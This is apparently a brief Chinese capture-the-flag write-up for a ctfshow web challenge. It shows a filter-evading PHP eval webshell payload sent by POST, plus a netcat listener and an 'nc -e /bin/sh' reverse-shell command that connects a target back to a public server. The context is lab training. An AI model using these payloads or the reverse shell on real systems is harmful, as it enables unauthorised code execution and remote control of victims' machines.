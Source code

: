 ## 第二章

### 一句话木马变形

测试发现不能含有空格，引号，一般🐎子g了，好像只能函数无参rce

POST：code=eval(array_pop(next(get_defined_vars())));&1=phpinfo();

![](/medias/ctfshow-web/10.png)



### 反弹shell构造

无回显命令执行



公网服务器监听

```bash
nc -lvnp 4444
```

靶机反弹shell

```bash
nc -e /bin/sh 公网服务器ip 4444
```
